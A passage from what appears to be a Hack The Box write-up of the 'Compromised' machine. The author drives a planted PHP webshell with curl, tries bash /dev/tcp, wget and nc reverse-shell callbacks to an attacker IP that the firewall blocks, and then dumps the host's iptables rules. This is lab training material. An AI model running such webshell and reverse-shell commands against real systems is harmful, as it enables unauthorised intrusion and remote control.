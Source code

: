 
#### No Reverse Shell

I wasn’t able to get a full shell from this. It seems that perhaps the
firewall is not allowing traffic out? All of these either hung or returned
instantly:

    
    
    root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php --data-urlencode "c=bash -c 'bash -i >& /dev/tcp/10.10.14.4/443 0>&1'"
    ^C
    root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php --data-urlencode "c=wget http://10.10.14.4:443"
    ^C
    root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php --data-urlencode "c=nc 10.10.14.4 443"
    ^C
    

I can pull the `iptables` rules:

    
    
    root@kali# curl -s http://10.10.10.207/shop/vqmod/xml/ASZL5.php --data-urlencode 'c=find /etc/iptables -type f'
    /etc/iptables/rules.v4
    root@kali# curl -s http://10.10.10.207/shop/vqmod/xml/ASZL5.php --data-urlencode 'c=cat /etc/iptables/rules.v4'
    # Generated by iptables-save v1.6.1 on Mon May 11 02:27:29 2020
    *filter
    :INPUT DROP [6:1032]
    :FORWARD DROP [0:0]
    :OUTPUT DROP [5:394]
    -A INPUT -i lo -j ACCEPT
    -A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
    -A INPUT -p tcp -m tcp --dport 22 -m tcp -j ACCEPT
    -A INPUT -p tcp -m tcp --dport 80 -m tcp -j ACCEPT
    -A INPUT -p icmp -m icmp --icmp-type 0 -j ACCEPT
    -A INPUT -p icmp -m icmp --icmp-type 8 -j ACCEPT
    -A OUTPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
    -A OUTPUT -p tcp -m tcp --sport 22 -m tcp -j ACCEPT
    -A OUTPUT -p tcp -m tcp --sport 80 -m tcp -j ACCEPT
    COMMIT
    # Completed on Mon May 11 02:27:29 2020
    

Inbound only established, 22, and 80 are allowed. Outbound only established
and source port 22 and 80 (coming from SSH and HTTP). Anything I’d want to
send outbound will be blocked. Still, this webshell is enough to run `mysql`
commands through. Alternatively, I could write a forward shell (using Ippsec’s
technique like I’ve shown several times, including
[Stratosphere](/2018/09/01/htb-stratosphere.html#building-a-shell) \- Ippsec
will show this in his [Compromised
video](https://www.youtube.com/watch?v=yaV09XCDDqI)), or just root from here
(see Beyond Root).
